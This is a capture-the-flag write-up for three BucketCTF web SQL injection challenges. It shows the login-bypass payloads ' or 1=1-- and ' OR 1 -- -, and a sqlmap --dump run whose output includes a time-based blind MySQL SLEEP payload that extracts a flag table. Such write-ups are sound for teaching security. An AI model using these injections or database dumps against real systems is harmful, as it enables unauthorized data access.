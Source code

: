 ```yaml
---
author: "Asad Ullah"
title: "SQLi 1, 2, 3  - BucketCTF"
description: 
summary: Write-up on web sql injections easy, medium and hard.
date: 2023-04-10T05:04:24+05:00
Section: write-ups
categories:
- writeup
- web
- ctftime.org

tags:
- bucketctf
- sqli
- sql injection
- time based sqli
- payload
- blind sqli

draft: false

---
```


&nbsp;


## Web - SQLi - 1

{{< 
ctftime 
name="SQLi - 1" 
difficulty="Easy"  
points="200"
category="web"
>}}

&nbsp;

### Description

This is my first time using SQL. Its such a great and simple tool.

### Approach

I attempted several payloads, but ultimately, this one worked: `' or 1=1--`

![Untitled](/write-ups/ctftime/bucket/sqli-1.webp)

&nbsp;

---

**Flag: `bucket{s1mp13_sq11_ed0176a}`**

---

&nbsp;

&nbsp;

## Web - SQLi - 2

{{< 
ctftime 
name="SQLi - 2" 
difficulty="Medium"  
points="200"
category="web"
>}}

&nbsp;

### Description

Ok I upgrade my security by preventing you from using semicolons. A StackOverflow thread told me that would work.

### Approach

I attempted several payloads but found success with this one: `' OR 1 -- -`

![Untitled](/write-ups/ctftime/bucket/sqli-2.webp)

&nbsp;

---

**Flag: `bucket{m3d1um_sq11_693f79541}`**

---

&nbsp;

&nbsp;

## Web - SQLi - 3

{{< 
ctftime 
name="SQLi - 3" 
difficulty="Hard"  
points="290"
category="web"
>}}

&nbsp;

### Description

Finally! I moved the secret into a **COMPLETELY** different table. There is **NO** way you can find it now.

### Approach

After attempting some payloads manually without success, I used `SQLmap` and successfully retrieved the flag. The database was `MySQL` and the parameters were vulnerable to `blind SQL Injection`

&nbsp;

***Breakdown of options in the SQLmap command***

- **`-u`** specifies the target URL to be scanned.
- **`-data`** provides the POST data to be sent with the request.
- **`-p`** indicates the parameters to be tested for SQL injection.
- **`-method`** specifies the HTTP method used for the request.
- **`-dump`** dumps the contents of the database after a successful SQLi attack.

```bash
┌──(kali㉿iasad)-[~/CTFs/Tools/sqlmap-dev]
└─$ python3 sqlmap.py -u "http://213.133.103.186:6409/login" --data "userName=1&password=2" -p "userName,password" --method POST --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.4.6#dev}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal.
[*] starting @ 15:35:20 /2023-04-10/

[15:35:21] [INFO] resuming back-end DBMS 'mysql' 
[15:35:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: userName (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=1' AND (SELECT 5012 FROM (SELECT(SLEEP(5)))lPED) AND 'eyGp'='eyGp&password=2
---
[15:35:21] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:35:21] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[15:35:21] [INFO] fetching current database
[15:35:22] [INFO] resumed: railway
[15:35:22] [INFO] fetching tables for database: 'railway'
[15:35:22] [INFO] fetching number of tables for database 'railway'
[15:35:22] [INFO] resumed: 2
[15:35:22] [INFO] resumed: Flag
[15:35:22] [INFO] resumed: Users
[15:35:22] [INFO] fetching columns for table 'Flag' in database 'railway'
[15:35:22] [INFO] resumed: 2
[15:35:22] [INFO] resumed: id
[15:35:22] [INFO] resumed: value
[15:35:22] [INFO] fetching entries for table 'Flag' in database 'railway'
[15:35:22] [INFO] fetching number of entries for table 'Flag' in database 'railway'
[15:35:22] [INFO] resumed: 1
[15:35:22] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)                       
[15:35:38] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[15:36:39] [INFO] adjusting time delay to 2 seconds due to good response times
bucket{j01
[15:37:31] [ERROR] invalid character detected. retrying..
[15:37:31] [WARNING] increasing time delay to 3 seconds
n5_m4k3_n0_53
[15:38:58] [ERROR] invalid character detected. retrying..
[15:39:30] [ERROR] invalid character detected. retrying..
[15:39:30] [WARNING] increasing time delay to 6 seconds
n53_a5ed15}
[15:42:30] [ERROR] invalid character detected. retrying..
[15:42:30] [WARNING] increasing time delay to 8 seconds


[*] ending @ 15:47:24 /2023-04-10/
```

The flag was printed in pieces due to time-based SQL injection attack.

&nbsp;

---

**Flag: `bucket{j01n5_m4k3_n0_53n53_a5ed15}`**

---

&nbsp;

&nbsp;

